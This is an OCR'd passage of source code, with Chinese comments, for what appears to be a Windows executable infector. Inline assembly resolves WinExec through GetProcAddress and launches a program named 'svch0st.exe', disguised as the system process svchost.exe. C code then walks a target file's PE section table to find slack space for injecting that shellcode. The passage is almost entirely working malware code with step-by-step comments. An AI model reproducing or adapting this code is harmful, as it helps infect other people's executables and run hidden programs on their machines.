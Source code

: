 PUSH DWORD PTR 0X456E6957

PUSH ESP

PUSH EBP ;

CALL EDI ;调用GetProcAddress取得WinExec函数的地址

XOR EBX,EBX

PUSH EBX

PUSH WORD PTR 0X00 ;构造svch0st.exe符串.

PUSH DWORD PTR 0X455845

PUSH DWORD PTR 0X2E545330

PUSH DWORD PTR 0X48435653

PUSH ESP

CALL EAX

EXIT: ADD ESP,40 ;平衡堆栈

POPAD

}

shellend:

char \*pShell;

int nShellLen;

\_\_asm

{

LEA EAX,shell

MOV pShell,EAX;

LEA EBX,shellend

SUB EBX,EAX

MOV nShellLen,EBX

}

int i;

for(i=0;i\<sectionNum;i++)

{

fseek(pFile,pNT+248+i\*40,SEEK\_SET); //定位到节表开始处

fread(&SecInject,sizeof(IMAGE\_SECTION\_HEADER),1,pFile);

DWORD pInfect = SecInject.PointerToRawData + SecInject.Misc.VirtualSize+5;

WORD Sign;
